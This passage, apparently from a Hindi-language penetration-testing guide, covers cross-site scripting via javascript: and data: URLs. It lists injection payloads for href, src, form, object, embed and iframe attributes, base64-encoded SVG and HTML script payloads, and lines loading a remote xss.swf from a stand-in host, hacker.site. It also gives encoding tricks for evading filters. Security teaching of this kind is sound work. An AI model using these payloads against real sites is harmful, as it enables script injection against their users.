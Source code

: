 ```javascript
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**इन स्थानों पर आप इन प्रोटोकॉल को इंजेक्ट कर सकते हैं**

**सामान्यतः** `javascript:` प्रोटोकॉल को **किसी भी टैग में उपयोग किया जा सकता है जो `href` विशेषता को स्वीकार करता है** और **अधिकतर** टैग में जो **`src` विशेषता को स्वीकार करते हैं** (लेकिन `<img>` में नहीं)
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**अन्य ओबफस्केशन ट्रिक्स**

_**इस मामले में, पिछले अनुभाग से HTML एन्कोडिंग और यूनिकोड एन्कोडिंग ट्रिक भी मान्य है क्योंकि आप एक एट्रिब्यूट के अंदर हैं।**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
इसके अलावा, इन मामलों के लिए एक और **अच्छा ट्रिक** है: **भले ही आपका इनपुट `javascript:...` के अंदर URL एन्कोडेड हो, यह निष्पादन से पहले URL डिकोड किया जाएगा।** इसलिए, यदि आपको **स्ट्रिंग** से **एकल उद्धरण** का **एस्केप** करना है और आप देखते हैं कि **यह URL एन्कोडेड है**, तो याद रखें कि **इससे कोई फर्क नहीं पड़ता,** यह **निष्पादन** के समय **एकल उद्धरण** के रूप में **व्याख्यायित** किया जाएगा।
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
ध्यान दें कि यदि आप **दोनों** `URLencode + HTMLencode` को किसी भी क्रम में **payload** को एन्कोड करने के लिए उपयोग करने की कोशिश करते हैं, तो यह **काम नहीं करेगा**, लेकिन आप **payload के अंदर उन्हें मिला सकते हैं**।

**`javascript:` के साथ Hex और Octal एन्कोड का उपयोग करना**
